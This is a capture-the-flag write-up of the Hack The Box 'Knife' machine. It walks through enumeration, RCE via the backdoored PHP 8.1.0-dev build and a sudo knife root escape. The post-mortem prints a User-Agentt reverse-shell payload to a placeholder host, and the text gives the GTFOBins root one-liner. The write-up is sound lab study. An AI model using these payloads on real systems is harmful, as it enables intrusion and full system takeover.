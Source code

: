 ```yaml
---
title: "Knife HTB"
date: 2021-07-28T17:30:30
categories:
  - writeup
tags:
  - Linux
  - HacktheBox
  - Backdoor
  - GTFOBin
  - PHP
classes: wide
---
```

Knife was at the time of this writeup's completion an active box, meaning it is the first I managed to do without any write up help. It required a LOT of googling, but was overall not too hard. The basic flow of scan, google, foothold, `sudo -l` came through. I just needed to not make some silly mistakes and the whole process could have been less painful. There is a Post Mortem at the bottom of my thoughts when revisiting this box.

<h2>Enumeration</h2>
**Nmap scan results:**

```
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
<h4>What is the scan telling us?</h4>

- Port 22 is open and running the usual ssh, specifically OpenSSH 8.2p1. Which seems to have some man in the middle(MitM) attack routes, but nothing suitable for this box. 
- Port 80 is showing Apache 2.4.41 which seems to have some vulns that can cause it to crash, but not much else. 
- Box is running on Ubuntu Linux which we knew already.

**Gobuster:**

```
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/server-status (Status: 403)
/index.php (Status: 200)
/icons (Status: 200)
/icons/small (Status: 200)
```

**Nikto:**

```
+ Server: Apache/2.4.41 (Ubuntu)
+ Retrieved x-powered-by header: PHP/8.1.0-dev
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ 7863 requests: 0 error(s) and 5 item(s) reported on remote host
+ End Time:           2021-07-28 13:04:33 (GMT-4) (210 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Navigating to the website we see a fancy looking Emergency medical site, but no obvious avenues of attack.

<h2>Foothold</h2>

After searching for hours about possible OpenSSH 8.2.p1 Ubuntu, 4ubuntu0.2, and Apache 2.4.41 CVE's. A closer look at Nikto holds the answer.
Nikto reveals that the Apache header shows that the PHP version is 8.1.0-dev. Googling this reveals an exploit on exploitdb: [EDB-ID:49933](https://www.exploit-db.com/exploits/49933). Which allows RCE through a backdoor added through a compromised git.php.net server. 

We download the python script from the exploitdb page and run it with python3. This gives us a shell as "james" and we find the user flag in their home directory.


<h2>Privilege Escalation</h2>

After obtaining the user flag, running `sudo` -l shows that james can run:

```bash
User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
Googling this binary shows that "knife" is a part of a automation platform called "chef". Reading the [website](https://docs.chef.io/workstation/knife/) we see:

> *"The Chef Workstation includes other command line tools for interacting with Chef Infra. These include knife for interacting with the Chef Infra Server, and chef for interacting with your local chef code repository (chef-repo)."*

Reading the website we see a list of subcommands, including knife exec. This shows that knife can execute ruby commands. Further details can be seen from [GTFOBins](https://gtfobins.github.io/gtfobins/knife/) which shows that `knife exec -E 'exec "/bin/sh"'` will run a ruby script to execute /bin/sh and obtain us root shell.
Attempting to run `sudo knife exec -E 'exec "bin/sh"'` leads to an error. After a large amount of trial and error it turns out the command is returning error because the shell from the previous script is not a TTY shell. Attempts to upgrade this shell lead to a non-responsive shell, a proper php reverse shell usually has no problems being upgraded. Maybe there is a method to upgrade the other one I'm not sure about, maybe by backgrounding it? More googling shows that a [script for reverse shell](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py) has already been written by the same exploitdb author. 

We download the script, enter the parameters it requests in the format we request, open an nc listener, and run the script. We catch a tty shell! Now with our better shell, running the `sudo knife exec -E 'exec "/bin/sh"'` command gives us a root shell.
Navigating to the root folder we find root.txt and inside it... the flag!
 
<h4>For next time:</h4>

- More careful attention to enumeration would have saved a lot of time. Searchsploit everything!
- Make sure that you have full TeleTYpe(tty) shell. I couldn't execute the knife privesc command because I hadn't upgraded the shell. 

---

<h2> Post Mortem</h2>
Now that the box has retired I am revisiting this writeup to add some study notes.

Actually reading the exploit I used at the time I find a lot of useful information. 
From the words of the [blog](https://flast101.github.io/php-8.1.0-dev-backdoor-rce/) written by flast101:

>*"taking a look at the added line 370 where zend_eval_string function is called, the code actually plants a backdoor for obtaining easy Remote Code Execution (RCE) on a website running this hijacked version of PHP. This line executes PHP code from within the useragent HTTP header, if the string starts with ‘zerodium’.
Zerodium is a Washington-based security firm that specializes in buying and selling zero-day vulnerabilities for a variety of operating systems and popular desktop and Web applications, including for PHP itself."*

Reading this it seems I could have gotten RCE manually by adding a system reverse shell one liner to the User-Agent after "zerodium" in burpsuite. This would have avoided the issues I had with trying to run the GTFOBins priv esc of `knife exec -E`. For the script to execute User-Agent must have two t's and the script must be after zerodium.
Ippsec shows this one line would look like: 

```
User-Agentt: zerodiumsystem("bash -c 'bash -i >& /dev/tcp/YOURIP/PORT 0>&1'")
```

Overall not too hard of a box, and was such a great feeling completing my first active box. 